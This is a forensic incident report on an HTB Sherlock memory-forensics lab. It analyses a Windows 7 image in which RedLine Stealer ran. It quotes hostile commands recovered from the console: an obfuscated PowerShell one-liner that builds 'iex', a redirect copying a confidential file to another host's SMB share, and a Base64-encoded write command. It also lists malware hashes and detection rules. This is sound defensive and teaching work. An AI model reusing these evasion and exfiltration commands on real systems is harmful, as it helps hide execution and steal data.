










# Incident Report — Recollection (Memory Forensics)

**Analyst:** Carvajal-Hc
**Date:** 2025-08-28
**Classification:** Lab exercise — HTB Sherlock "Recollection" (Easy)
**Evidence:** Single physical memory image of a Windows 7 workstation (`USER-PC`), standalone, account `user`

**Confidentiality.** This report documents a controlled lab investigation (HTB Sherlock). All hosts, accounts, addresses, and hashes belong to a training scenario and do not correspond to any production system. Malware hashes are real samples published on MalwareBazaar and are referenced for identification only.

---

## 1. Executive Summary

**Incident ID:** `INC-2022-1219-001`
**Severity:** High (P2)
**Status:** Resolved (evidence analysis complete)
**Incident type:** Malware execution · Attempted data exfiltration · Insecure internal activity

### Incident summary

On 19 December 2022, a memory image was acquired from a workstation used by a junior member of the security team for research and testing. The stated concern was a possible compromise of the host and potential exposure of other assets on the network.

Analysis of the memory image does not support an external intrusion. The activity recorded on the host is consistent with a single interactive session, originating from the console of the logged-on user, in which live malware samples were downloaded from a public repository and executed directly on the operating system.

Between 15:40 and 15:51 UTC the user opened a command prompt, ran an obfuscated PowerShell one-liner, attempted to copy a file named `Confidential.txt` to an SMB share on another host in the same subnet, attempted to write a text file containing the string `hacked by mafia`, and executed a malware sample identified by MalwareBazaar as **RedLine Stealer**. A second sample, identified as **Smoke Loader**, was downloaded but shows no evidence of execution.

The host was running Windows 7 SP1 (build 7601), which reached end of extended support in January 2020. It held a routable address on the corporate subnet and had SMB reachability to at least one other internal host.

**The exfiltration attempt failed.** The target SMB path was unreachable and the console recorded `The network path was not found.` No evidence was found that `Confidential.txt` left the host.

### Key findings

- **Root cause:** live malware was executed on a networked, unsupported, unsegmented workstation without an isolated analysis environment.
- **Vulnerability exploited:** none. No exploit, no privilege escalation and no persistence mechanism were identified. Every action was performed interactively by the logged-on user.
- **Malware present:** `b0ad70…635cb1.exe` (RedLine Stealer, infostealer) was executed. `bf9e93…346b03.zip` (Smoke Loader, loader/backdoor) was downloaded only.
- **Data compromised:** none confirmed as exfiltrated. `C:\Users\Public\Secret\Confidential.txt` was read locally and was the target of a failed transfer. RedLine Stealer executed on the host and is capable of harvesting browser credentials, cookies and session tokens; local credential exposure cannot be excluded.
- **Lateral reachability:** the transfer target `192.168.0.171` sits in the same `/24` as the host, which places at least one other internal asset within the blast radius of the activity.

### Immediate actions taken

- Memory image acquired and hashed prior to analysis (SHA-256 recorded in section 2.2).
- Analysis performed on a read-only copy; the source image was not modified.
- Malicious binary extracted from the file cache and identified through PE metadata and public threat intelligence.

### Impact to stakeholders

| Stakeholder | Potential impact |
|---|---|
| **Customers** | None identified. No customer data resided on the host. |
| **Employees** | Credentials stored in the Edge profile of account `user` should be treated as exposed. RedLine Stealer targets exactly this data. |
| **Business partners** | None identified. |
| **Regulatory bodies** | No confirmed data loss, therefore no notification trigger. Would change if exfiltration had succeeded. |
| **Internal teams** | Security team process gap: live malware handled outside a controlled environment, on a production-adjacent network segment. |
| **Shareholders** | None. Contained, single-host event with no confirmed data loss. |

### Activity at a glance

| Phase | Action | Outcome | Key artifact |
|-------|--------|---------|--------------|
| Preparation | Two malware samples downloaded from MalwareBazaar; Base64 payload built online | — | Edge `History` |
| Execution | Obfuscated PowerShell resolving to `Invoke-Expression` | Executed | conhost screen buffer |
| Collection | `C:\Users\Public\Secret\Confidential.txt` read and opened in Notepad | Executed | `cmdline` (PID 3476), console buffer |
| Exfiltration | `type … > \\192.168.0.171\pulice\pass.txt` (T1048) | **Failed** — network path not found | console error output |
| Impact (attempted) | Base64-encoded write of `readme.txt` containing `hacked by mafia` | **Failed** — `CommandNotFoundException` | console buffer |
| Impact | `b0ad70…635cb1.exe` (RedLine Stealer) executed from `Downloads` | Executed | console buffer, `filescan` |
| Dormant | `bf9e93…346b03.zip` (Smoke Loader) and `csrsss.exe` present on disk | No execution observed | `filescan`, console listing |

---

## 2. Technical Analysis

### 2.1 Affected systems and data

| Host | Role | Data present | Level of compromise |
|---|---|---|---|
| `USER-PC` (192.168.0.104) | Workstation, Windows 7 SP1 x64, standalone | `C:\Users\Public\Secret\Confidential.txt`, Edge browser profile for account `user` | **Compromised** — RedLine Stealer executed with user privileges |
| `192.168.0.171` | Unidentified internal host, target of transfer attempt | Unknown | **Not affected** — SMB path unreachable, transfer failed |

Host details recovered from the image:

| Attribute | Value |
|---|---|
| Hostname | `USER-PC` |
| Operating system | Windows 7 SP1 x64, `NTBuildLab 7601.24214.amd64fre.win7sp1_ldr_` |
| Local IP | `192.168.0.104` |
| Local accounts | `Administrator`, `Guest`, `user` (+ `HomeGroupUser$`, a service account) |
| Boot time | 2022-12-19 15:32:28 UTC |
| Acquisition time | 2022-12-19 16:07:30 UTC |

No account was created or modified during the incident window. The most recent write to any SAM account key is 2022-12-10, nine days before the activity — consistent with system installation and inconsistent with account-based persistence.

### 2.2 Sources of evidence and analysis

| Evidence | Source | Finding | Integrity (SHA-256) |
|---|---|---|---|
| `recollection.bin` | Physical memory image, 4.5 GB, raw | Primary and only evidence | `a3e2f3a39beee513246494604b529c0a318c981148c58eb4a2fb7591ade786f7` |
| `conhost.exe` PID 3524 | Process memory dump | Full console screen buffer of the session | — |
| `b0ad70…635cb1.exe` | File cache (`DataSectionObject`) | RedLine Stealer, PE metadata intact | `c59527ed52d17a6002e7f619baf8f17f925cc35e53be1b803d439732d2d8a938` (see note below) |
| `History` (Edge) | File cache, SQLite | Browsing sequence: search, sample download, Facebook login | — |
| `Web Data` (Edge) | File cache, SQLite | Autofill email address | — |
| `SYSTEM`, `SAM` hives | Registry, in-memory | Hostname and local account enumeration | — |

Primary tooling: **Volatility 3 (2.28.0)** for kernel structures, registry and file extraction; **Volatility 2 profile `Win7SP1x64`** referenced for plugins not ported to v3; **pefile** for PE metadata; **sqlite3** for browser artifacts; **GNU strings** for raw text extraction from process dumps.

#### System identification

`windows.info` reads the kernel debugger block to recover the build and the system clock as they existed at acquisition:

```bash
vol -q -f recollection.bin windows.info
```

```
NTBuildLab    7601.24214.amd64fre.win7sp1_ldr_
CSDVersion    1
Is64Bit       True
NtProductType NtProductWinNt
SystemTime    2022-12-19 16:07:30+00:00
```

`NTBuildLab` identifies Windows 7 build 7601, confirmed independently as SP1 by `CSDVersion 1`. `NtProductWinNt` marks it as a workstation rather than a server. `SystemTime` is read from kernel memory rather than from file metadata, which makes it the authoritative acquisition timestamp and the upper bound of the incident window.



#### Process tree

`windows.pstree` reconstructs parent-child relationships from the active process list. The system baseline (`System` → `smss` → `csrss`/`wininit` → `services`/`lsass`, `winlogon`, `explorer`) is intact, with no unexpected service parentage and no processes running from non-standard paths.

Two PowerShell instances are present, and their parentage distinguishes them:

```
2032   1988   explorer.exe
*  3688 2032   powershell.exe    "C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"
*  4052 2032   cmd.exe           "C:\Windows\system32\cmd.exe"
** 3532 4052   powershell.exe    powershell
```

PID 3688 was launched from the graphical shell with a fully quoted path. PID 3532 is a child of `cmd.exe` (PID 4052) and its command line is the bare word `powershell` — the signature of a command typed at a console prompt rather than launched from the UI. This distinction is the same one a SOC would make from Sysmon Event ID 1 by correlating `ParentImage` with `CommandLine`.



`windows.psscan`, which scans pool memory instead of following the kernel list, surfaced one additional real process: `taskhost.exe` (PID 1492), terminated at 16:07:00, thirty seconds before acquisition. It also produced one structure with 3.3 million threads, a fourteen-digit PPID and a single-character image name — physically impossible values, and therefore a false positive from random data matching the `_EPROCESS` signature, not a hidden process.

#### Console activity

`windows.consoles` and `windows.cmdscan` in Volatility 3 aborted:

```
NotImplementedError: This version of Windows is not supported: 6.1 15.7601!
```

Both plugins depend on internal `conhost.exe` structures that have only been reverse-engineered for Windows 10 and 11. The failure occurred at the symbol-resolution stage, after the scan had begun — the data was present in the image, the interpretation layer was not.

Since the console screen buffer resides physically in the memory of `conhost.exe`, both console host processes were dumped and their contents extracted directly:

```bash
vol -q -f recollection.bin -o dumped windows.memmap --pid 3524 --dump
strings -a -t d -e l dumped/pid.3524.dmp > conhost_3524_utf16.txt
```

The `-e l` flag selects UTF-16 little-endian, the encoding Windows uses for console buffers. Extraction in ASCII alone would have missed the entire session.

A keyword search across exfiltration verbs and file extensions located the complete session at offset 213344 of the dump. The reconstructed buffer:

```
Microsoft Windows [Version 6.1.7601]

C:\Users\user> powershell -command "(gv '*MDR*').naMe[3,11,2]-joIN''"
iex

C:\Users\user> powershell
PS C:\Users\user> type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
The network path was not found.
  + CategoryInfo : OpenError: (:) [], IOException
  + FullyQualifiedErrorId : FileOpenFailure

PS C:\Users\user> powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
  ... CommandNotFoundException

PS C:\Users\user> cd .\Downloads
PS C:\Users\user\Downloads> ls
  12/19/2022  2:59 PM   420864  b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
  12/19/2022  9:00 PM   313152  b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.zip
  12/19/2022  9:00 PM   205646  bf9e9366489541153d0e2cd21bdae11591f6be48407f896b75e1320628346b03.zip
  12/19/2022  3:00 PM   309248  csrsss.exe
  12/17/2022  4:16 PM  5885952  wazuh-agent-4.3.10-1.msi

PS C:\Users\user\Downloads> .\b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
```

The screen buffer — not the command history — is what makes this section conclusive. `cmdscan` would have recovered the commands that were typed; only `consoles` output carries the responses the system returned, and those responses are what establish that the exfiltration failed.

#### Obfuscated PowerShell

The first command of the session builds a cmdlet alias at runtime:

```powershell
(gv '*MDR*').naMe[3,11,2]-joIN''
```

`gv` is the alias for `Get-Variable`. The wildcard `*MDR*` matches the automatic variable `$MaximumDriveCount`. Indexing its name at positions 3, 11 and 2 and joining without a separator produces `iex`, the alias for **`Invoke-Expression`**. The console output on the following line confirms the result.

```
M  a  x  i  m  u  m  D  r  i  v  e  C  o  u  n  t
0  1  2  3  4  5  6  7  8  9 10 11 12 13 14 15 16
        i              e
     x
```

The mixed casing of `.naMe` and `-joIN` is part of the same technique: PowerShell is case-insensitive, so the behaviour is unchanged while any literal string match fails. Neither `iex` nor `Invoke-Expression` ever appears in the command line.



#### Attempted exfiltration

```
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

The command reads a local file and redirects its contents to an SMB share on another host. It uses only built-in shell functionality — no transfer utility was downloaded or invoked. The target address is in the same `/24` as the workstation, which makes this an attempt to move data to another internal asset rather than to the internet.

The console recorded the failure:

```
The network path was not found.
+ FullyQualifiedErrorId : FileOpenFailure
```

The file was independently confirmed as accessed on the host: `notepad.exe` (PID 3476) was launched at 15:50:42 with `C:\Users\Public\Secret\Confidential.txt` as its argument.



#### Encoded command

```
powershell.exe -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
```

`-e` is the abbreviation of `-EncodedCommand`, which accepts a Base64-encoded UTF-16LE string and executes it. Decoded:

```
echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"
```

The command was attempted twice and failed both times with `CommandNotFoundException`; the file was never created. The intended path is recorded as an indicator, not as an artifact present on the system. The string `mafia` also appears in the email address recovered from the browser profile, which links the two artifacts.



#### Malware identification

The executable was located in the pool and extracted from the file cache:

```bash
vol -q -f recollection.bin -o dumped windows.dumpfiles --physaddr 0x11fa45c20
```

Two `_FILE_OBJECT` structures referenced the same file, and each produced two artifacts: a `DataSectionObject` (412 KB, the on-disk representation) and an `ImageSectionObject` (400 KB, the loader-mapped image with section alignment applied and the import table rewritten). PE metadata was read from the `DataSectionObject`, since the import table of a mapped image no longer matches the file on disk.

```
imphash:       d3b592cd9481e4f053b5362e22d61595
TimeDateStamp: 0x62b301b0
Compiled:      2022-06-22 11:49:04 UTC
```

**A note on the file hash.** The SHA-256 of the extracted file (`c59527ed…`) does not match the hash that gives the file its name (`b0ad7041…`). This is expected: `dumpfiles` reconstructs a file from cached pages, uncached regions are zero-filled and the result is padded to a page boundary. The hash of a memory-extracted file describes the extraction, not the original. The imphash and the PE header remain valid because those structures sit in the first pages of the image, which the loader must read to start the process.

To confirm that the header survived extraction intact, the original hash was submitted to VirusTotal. The Compilation Timestamp reported there matches the value computed locally, which validates the reconstruction against an independent source.



Browser history identifies both samples by family without relying on antivirus classification:

```
bazaar.abuse.ch/sample/b0ad70…635cb1/   MalwareBazaar | SHA256 b0ad70… (RedLineStealer)
bazaar.abuse.ch/sample/bf9e93…346b03/   MalwareBazaar | SHA256 bf9e93… (Smoke Loader)
```

This also explains the filenames: MalwareBazaar serves samples named after their own SHA-256. The naming convention is the repository's, not the operator's.

#### Masquerading

The `Downloads` listing contains `csrsss.exe` (309,248 bytes, created 19 December 15:00). The legitimate Windows binary is `csrss.exe` — Client/Server Runtime Subsystem — and resides in `System32`, never in a user directory. The additional `s` is a typosquat of a system process name (MITRE T1036.005). No execution of this file was observed in the console buffer or the process list.



#### Browser artifacts

The Edge `History` and `Web Data` databases were extracted from the file cache and queried directly, which yields URLs, page titles and structured field values rather than isolated strings.

The browsing sequence establishes intent and origin:

| URL | Title |
|---|---|
| `bing.com/search?q=install+wazuh+agent+windows` | search |
| `documentation.wazuh.com/…/wazuh-agent-package-windows.html` | Installing Wazuh agents on Windows endpoints |
| `bing.com/search?q=malwarebazaar` | search |
| `bazaar.abuse.ch/sample/b0ad70…` | MalwareBazaar — RedLineStealer |
| `bazaar.abuse.ch/sample/bf9e93…` | MalwareBazaar — Smoke Loader |
| `base64encode.org` | Base64 Encode and Decode — Online |
| `exploit.in` | Exploit.IN |
| `facebook.com/login/` | Log in to Facebook |
| `bing.com/search?q=7+zip+windows+7` | search |

The `Login Data` database contains no saved credentials, but the `autofill_profile_emails` table in `Web Data` retains the address entered into a form:

```
a65bded5-284b-407b-86df-db3050f7f451 | mafia_code1337@gmail.com
```

The same value appears independently in the `autofill` table under the field name `email`, and in a raw string search across the database file.




One artifact required a negative finding. A file named `passwords.txt` exists under the Edge profile:

```
\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt
```

`ZxcvbnData` is a component shipped with Chromium: `zxcvbn` is the password-strength estimation library used to warn users about weak passwords, and this file is its dictionary of common passwords. It ships with the browser and is unrelated to the incident. A filename is a hypothesis; the path is what confirms or discards it.



#### Network state

`windows.netscan` recovered the host address and its outbound connections:

```
192.168.0.104:49315 → 13.33.88.81:443       ESTABLISHED
192.168.0.104:49323 → 199.232.46.132:443    ESTABLISHED
192.168.0.104:49340 → 23.47.190.91:443      ESTABLISHED
192.168.0.104:49326 → 198.144.120.23:80     CLOSED
192.168.0.104:49325 → 198.144.120.23:80     CLOSED
192.168.0.104:49341 → 198.144.120.23:443    CLOSE_WAIT
```

`0.0.0.0`, `::` and `127.0.0.1` were discarded as wildcard binds and loopback. `192.168.0.104` is confirmed as the host address both as the source of outbound connections and as the address bound to NetBIOS ports 137, 138 and 139, which only bind to a real interface.

The three established connections resolve to CDN ranges consistent with normal browsing (CloudFront, Fastly, Akamai). `198.144.120.23` does not fit that pattern: three separate connections on two ports, all closed or closing. It is recorded as an indicator requiring follow-up rather than as a confirmed C2 channel — the owning process could not be attributed, since the endpoint structures survived in pool memory after the process released its reference.

### 2.3 Indicators of Compromise

| Type | Value | Note |
|---|---|---|
| **Malicious file** | `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe` | RedLine Stealer — **executed** |
| SHA-256 | `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1` | |
| Imphash | `d3b592cd9481e4f053b5362e22d61595` | pivot for related samples |
| PE compile time | 2022-06-22 11:49:04 UTC | |
| **Malicious file** | `bf9e9366489541153d0e2cd21bdae11591f6be48407f896b75e1320628346b03.zip` | Smoke Loader — downloaded, no execution observed |
| **Masqueraded binary** | `csrsss.exe` (309,248 bytes) | typosquat of `csrss.exe`, T1036.005 |
| **Internal target** | `192.168.0.171` | SMB share `\\192.168.0.171\pulice`, transfer target |
| **External IP** | `198.144.120.23` | ports 80 and 443, unattributed, requires follow-up |
| **Email address** | `mafia_code1337@gmail.com` | browser autofill, Facebook login |
| **String** | `hacked by mafia` | intended content of `readme.txt` |
| **Intended file path** | `C:\Users\Public\Office\readme.txt` | never created |
| **Accessed file** | `C:\Users\Public\Secret\Confidential.txt` | exfiltration target |
| **Command** | `(gv '*MDR*').naMe[3,11,2]-joIN''` | obfuscated `Invoke-Expression` |
| **Encoded command** | `powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+…"` | Base64 UTF-16LE |
| **Download source** | `bazaar.abuse.ch` | MalwareBazaar |

### 2.4 Root Cause Analysis

**Primary root cause:** live malware samples were downloaded from a public repository and executed directly on a networked workstation, without an isolated analysis environment.

Contributing factors:

- **Unsupported operating system.** Windows 7 SP1 left extended support in January 2020. Any vulnerability disclosed after that date remains unpatched.
- **No network segmentation.** The host held a routable address on the corporate subnet and had SMB reachability to at least one other internal asset. A sample designed to spread laterally would have had a path to do so.
- **No sandboxing or virtualisation.** The samples were executed on the host operating system, not in a disposable virtual machine.
- **User-context browser profile in scope.** RedLine Stealer targets browser-stored credentials, cookies and session tokens. Running it under the profile of a real user account exposed exactly the data the malware is built to collect.
- **No endpoint telemetry at the time of execution.** A Wazuh agent had been downloaded two days earlier but no agent process was running in the image. Detection depended entirely on post-hoc memory forensics.

**What was ruled out.** No exploited vulnerability, no privilege escalation, no persistence mechanism, no account creation or modification, and no remote logon. Every observed action originated from an interactive console session under the logged-on user. The evidence does not support an external intrusion.

### 2.5 Timeline (by phase)

**Preparation** — 17–19 December

The user searched for and downloaded a Wazuh agent installer, searched for and downloaded 7-Zip, and visited `base64encode.org` and `exploit.in`. Two malware samples were downloaded from MalwareBazaar and a `csrsss.exe` binary was placed in `Downloads`.

**Execution** — 19 December, 15:40–15:45

A command prompt was opened at 15:40:08. An obfuscated PowerShell command resolving to `Invoke-Expression` was executed. A PowerShell session was started from within the console at 15:44:44.

**Collection and attempted exfiltration** — 15:45–15:51

`Confidential.txt` was read and redirected to an SMB share on `192.168.0.171`; the transfer failed. Two attempts to write a ransom-style text file via Base64-encoded command failed. `Confidential.txt` was opened in Notepad at 15:50:42.

**Malware execution** — after 15:51

The `Downloads` directory was listed and `b0ad70…635cb1.exe` (RedLine Stealer) was executed.

**Acquisition** — 16:07:30

Memory image captured.

---

## 3. Response and Recovery

### Detection

The activity was not detected in real time. No endpoint agent was running on the host at the time of execution, and the workstation appears to have been outside the monitored estate. Discovery was reactive, based on a memory image acquired after the fact.

### Containment

The workstation should be treated as compromised and isolated from the network. The account `user` and any credentials stored in its Edge profile should be considered exposed, given that RedLine Stealer executed successfully with access to that profile.

### Eradication

Reimaging is the appropriate remediation. Cleaning is not defensible: the host ran an unsupported operating system, RedLine Stealer executed to completion, and the memory image does not establish the full scope of what the sample collected or transmitted.

### Recovery

The host should not be returned to the corporate network in its current configuration. If the research use case continues, it should be rebuilt as an isolated analysis environment (see recommendations).

---

## 4. Recommendations

| # | Recommendation | Priority | Timeline |
|---|---|---|---|
| 1 | Rebuild the workstation. Do not attempt to clean an unsupported host that executed an infostealer. | Critical | Immediate |
| 2 | Rotate every credential accessible from the Edge profile of account `user`, including session tokens. Treat browser-stored secrets as exposed. | Critical | Immediate |
| 3 | Investigate `192.168.0.171` for related activity, and review whether the SMB share `pulice` exists elsewhere in the estate. | High | 48 hours |
| 4 | Submit `198.144.120.23` for threat intelligence review and search proxy and firewall logs for other internal hosts that contacted it. | High | 48 hours |
| 5 | Build a dedicated malware analysis environment: isolated VLAN or air gap, virtualised, snapshot-based, no route to the corporate network. Make its use mandatory for handling live samples. | High | 30 days |
| 6 | Retire remaining Windows 7 hosts, or place them on an isolated segment with documented compensating controls. | High | 90 days |
| 7 | Deploy endpoint telemetry (Sysmon + agent) to all hosts including research and lab systems. The Wazuh agent downloaded here was never installed. | High | 30 days |
| 8 | Enable PowerShell Script Block Logging (Event ID 4104) domain-wide. Every obfuscation technique observed in this case is defeated by logging the resolved script block. | Medium | 30 days |
| 9 | Define and publish a handling procedure for live malware samples: where they may be downloaded, stored, detonated and destroyed. | Medium | 60 days |

---

## 5. Detection Engineering

Each technique observed, and the telemetry that would surface it.

| Technique | MITRE | Detection |
|---|---|---|
| PowerShell obfuscation via variable indexing | T1027.010 | **EID 4104** — Script Block Logging records the block after the engine resolves it, so the runtime-constructed `iex` appears in plain text. String matching on the command line does not. |
| `-EncodedCommand` Base64 | T1027, T1140 | **EID 4104** plus **Sysmon EID 1** where `CommandLine` contains `-e`, `-en`, `-enc` … followed by a long Base64 string. |
| `cmd.exe` spawning `powershell.exe` | T1059.001 | **Sysmon EID 1**, pivot on `ParentProcessGuid`. A bare `powershell` command line with no path indicates a typed command rather than a UI launch. |
| Exfiltration to internal SMB share | T1048 | **Sysmon EID 3** to port 445 with an internal destination, correlated with **EID 5140** (share access) on the target host. |
| Execution from user Downloads | T1204.002 | **Sysmon EID 1** with `Image` under `\Users\*\Downloads\`, preceded by **EID 11** (file create) from a browser process. |
| Masquerading as a system binary | T1036.005 | **Sysmon EID 1** where `Image` filename resembles a `System32` binary but the path is elsewhere. Fuzzy-match process names against the known system binary list. |
| Malware repository download | T1105 | Proxy or DNS logs for `bazaar.abuse.ch`, `malshare.com`, `virusshare.com` from non-sandbox hosts. |
| Infostealer credential access | T1555.003, T1539 | **Sysmon EID 11** or file-access auditing on `\Edge\User Data\Default\Login Data` and `\Network\Cookies` by a process that is not the browser. |

A useful generic signature for the obfuscation family observed here: a short PowerShell command containing multi-index access `[n,n,n]` followed by `-join`, applied to `.Name`. That construction has no legitimate scripting use.

---

## 6. Appendices

### Annex A — Chronological timeline

| Time (UTC) | Activity |
|---|---|
| 2022-12-17 16:16 | `wazuh-agent-4.3.10-1.msi` downloaded |
| 2022-12-19 14:59 | `b0ad70…635cb1.exe` present in `Downloads` |
| 2022-12-19 15:00 | `csrsss.exe` present in `Downloads` |
| 2022-12-19 15:32:28 | System boot |
| 2022-12-19 15:34:29 | Microsoft Edge started (PID 2380) |
| 2022-12-19 15:40:08 | `cmd.exe` (PID 4052) started from `explorer.exe`; console host PID 3524 |
| 2022-12-19 15:43:39 | `powershell.exe` (PID 3688) started from `explorer.exe`; console host PID 2312 |
| 2022-12-19 15:44:44 | `powershell.exe` (PID 3532) started from `cmd.exe` |
| 2022-12-19 ~15:45 | Obfuscated command resolving to `Invoke-Expression` executed |
| 2022-12-19 ~15:46 | Exfiltration attempt to `\\192.168.0.171\pulice\pass.txt` — failed |
| 2022-12-19 ~15:47 | Two encoded-command attempts to write `readme.txt` — failed |
| 2022-12-19 15:50:42 | `notepad.exe` (PID 3476) opens `Confidential.txt` |
| 2022-12-19 ~15:51 | `b0ad70…635cb1.exe` (RedLine Stealer) executed |
| 2022-12-19 16:03:12 | `taskeng.exe` (PID 3268) — scheduled task trigger |
| 2022-12-19 16:05:00 → 16:07:00 | `taskhost.exe` (PID 1492) runs and exits |
| 2022-12-19 16:07:30 | Memory image acquired |

Times marked `~` are bounded by the surrounding process creation events; the console buffer preserves command order but not per-command timestamps.

### Annex B — Command reference

```bash
# Integrity
shasum -a 256 recollection.bin

# System identification
vol -q -f recollection.bin windows.info

# Processes
vol -q -f recollection.bin windows.pstree
vol -q -f recollection.bin windows.psscan
vol -q -f recollection.bin windows.cmdline

# Console buffer (consoles/cmdscan unsupported on 6.1)
vol -q -f recollection.bin -o dumped windows.memmap --pid 3524 --dump
strings -a -t d -e l dumped/pid.3524.dmp > conhost_3524_utf16.txt
grep -i -E "copy|certutil|ftp|echo|readme|Confidential|\.exe" conhost_3524_utf16.txt

# Decode the encoded command
